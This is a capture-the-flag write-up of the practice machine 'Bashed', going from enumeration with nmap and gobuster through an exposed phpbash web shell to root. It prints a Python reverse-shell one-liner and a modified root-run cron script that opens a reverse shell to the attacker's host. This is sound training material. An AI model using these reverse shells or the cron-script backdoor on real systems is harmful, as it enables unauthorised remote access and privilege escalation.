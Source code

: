 # Bashed
![info-card](./info_card.png)

## Initial Enumeration

As always, we'll start off with a simple nmap scan:

```bash
nmap -sV 10.10.10.68
```

![Initial Nmap Scan](./initial_nmap.png)

Usually with such sparse results I would run a full port scan, but we'll investigate this webserver for now seeing that this is a box rated easy. Navigating to the landing page of this webserver we see the following:

![Landing Page](./landing_page.png)

Well this certainly looks interesting. If you dig around through the posts on this page you'll learn that this is a project for running a terminal in your browser and you will also come across the github [repo](https://github.com/Arrexel/phpbash). Let's run a directory buster against this webserver to see what other pages it could be hiding:

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.68 -t 50
```

![Gobuster Results](./gobuster.png)

From this we see a directory `/dev` which could be interesting. Navigating to this page shows us a file `phpbash.php` which gives us a php terminal as the `www-data` user in our browser:

![PHPBash](./phpbash.png)

## Exploitation

While we have a web shell, I would much rather have a full reverse shell. I tried using my usual methods (nc or Bash -i), but python ended up being the tool for the job. Using the following command in the webshell we're able to trigger a reverse shell back to our host:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```

![Reveres Shell](./reverse.png)

As usual on a Linux box, we check `sudo -l` for quick wins. This command shows us that we are able to run any command as the user `scriptmanager`:

![Sudo Access](./sudo.png)

Before testing this access lets improve our QOL a little by converting our reverse shell to a full `tty` session. We can do this with python like so:

```bash
# Enter while in reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
```

{% hint %}
If you are asked for the terminal type after running `reset` and before you export the `TERM` variable. simply enter `xterm-256color` and proceed as normal.
{% endhint %}

After running these commands we'll have a fully interactive tty session, allowing us to use terminal functions such as `clear` and tab completion:

![Fully interactive Shell](./interactive.gif)

With this let's go ahead and assume the user `scriptmanager` using `sudo`:

```bash
sudo -i -u scriptmanager
```

![Assuming the scriptmanager User](./assume.png)

With this access we are able to read the user flag:

![User Flag](./user.png)

## Privilege Escalation

Now that we're the `scriptmanager` user, let's take a look and see what we can do with this level of access. To start we'll check the root directory and list it's contents. In here we see that we are able to read, write, and execute in a directory called `scripts`. Inside of this directory lies two files, `test.py` and `test.txt`. What's interesting here is that `scriptmanager` owns `test.py` and `root` owns `test.txt`:

![The Scripts Directory](./scripts.png)

Let's take a closer look at `test.py`:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

So it's a pretty simple script that opens a file `test.txt` in the current directory, writes `testing 123!` and closes the file. Knowing that the file `test.txt` is owned by `root`, we can assume that the root user is executing this script on some schedule. This makes this an easy task for us, because all we need to do is insert a reverse shell into this script and wait for it to be executed as the `root` user. To do this we will use the same logic as our first reverse shell, but because this will live in an actual python script we can clean up the syntax. After modification this is what `test.py` looks like:

```python
import socket,subprocess,os
f = open("test.txt","w")
f.write("privesc")
f.close
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.13",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

After writing this file and starting a netcat listener on port `4444` we only need to wait about a minute and our script is executed as the `root` user. This gives us the ability to read the root flag:

![Root Flag](./root.png)

